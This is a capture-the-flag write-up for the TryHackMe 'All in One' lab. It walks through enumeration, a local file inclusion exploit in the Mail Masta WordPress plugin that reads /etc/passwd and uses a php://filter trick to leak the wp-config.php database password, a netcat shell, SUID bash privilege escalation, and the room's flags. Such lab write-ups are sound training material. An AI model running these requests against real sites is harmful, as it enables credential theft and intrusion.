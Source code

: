 ```yaml
---
title: TryHackMe - All in One
description: My writeup on All in One box.
categories:
 - tryhackme
tags: tryhackme wordpress wpscan lfi suid base64 bash
---
```


![](https://i.imgur.com/aGyzc6x.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **All in One**  |
| Difficulty :  | **Medium**             |
| Play :    | [All in One](https://tryhackme.com/room/allinonemj){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This was a really cool box, It's about exploiting LFI on a vulnerable wordpress plugin this leads to reverse shell. Privesc to root is a simple SUID exploitation. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.148.28
$ nmap -sC -sV -oN nmap/allinone.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-29 17:23 EET
Nmap scan report for 10.10.148.28 (10.10.148.28)
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.234.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

FTP haven't any interesting file, so let's start enumerating the port 80. Once we visit the website we see the apache2 default page so let's fire up `gobuster`.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster.txt  
/index.html (Status: 200)
/wordpress (Status: 301)
```

`/wordpress` here we go. Without wasting time let's start a `wpscan` scan.

```
$ wpscan --no-banner --url http://$ip/wordpress -e ap,u -o scans/wpscan.txt

...data...

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://10.10.148.28/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.148.28/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.148.28/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://10.10.148.28/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2019-05-10T16:05:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.148.28/wordpress/wp-content/plugins/reflex-gallery/readme.txt


[i] User(s) Identified:

[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.148.28/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

We have a user `elyana` and 2 plugins. Let's search for possible exploits on `mail-masta` plugin.

```
$ searchsploit -w mail masta
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
 Exploit Title                                                                                                                      |  URL
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion                                                                              | https://www.exploit-db.com/exploits/40290
WordPress Plugin Mail Masta 1.0 - SQL Injection                                                                                     | https://www.exploit-db.com/exploits/41438
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
```

## Shell as www-data

Perfect, LFI one seems perfect. Let's test it out!

```
$ curl -s "http://$ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

Here we go, i tried to read the SSH private key for elyana and similar stuff but nothing worked. Then i had the idea to read the `wp-config.php` since it's running wordpress & it worked but we need a little trick. When we have LFI we can't read php files because they get executed by the webserver. So we will do a trick to bypass that using base64. I made a command that does the job:

```
$ curl -s "http://$ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php" | base64 -d | grep "DB_PASSWORD"
define( 'DB_PASSWORD', 'H@ckme@123' );
```

Now we can login as `elyana:H@ckme@123` on wordpress at `/wp-admin`. We can spawn a reverse shell if you don't know how to spawn one follow my steps from this post [Vulnhub - ColddBox Easy ](https://0xatom.github.io/vulnhub/2020/10/25/colddbox-easy/){:target="_blank"}

```
$ nc -lvp 5555  
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as root

Privesc to root is easy, let's check for SUID files.

```
bash-4.4$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 43088 Sep 16 18:43 /bin/mount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
-rwsr-sr-x 1 root root 59608 Jan 18  2018 /bin/chmod
-rwsr-xr-x 1 root root 26696 Sep 16 18:43 /bin/umount
...data...
```

We can run `/bin/bash` as root, but it needs an argument `-p` to allow the shell to run with SUID privileges.

```
bash-4.4$ bash -p
bash-4.4# whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Let's read the flags. (You have to base64 decode them)

```
bash-4.4# find / \( -name "root.txt" -o -name "user.txt" \) -exec cat {} \; 2>/dev/null | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
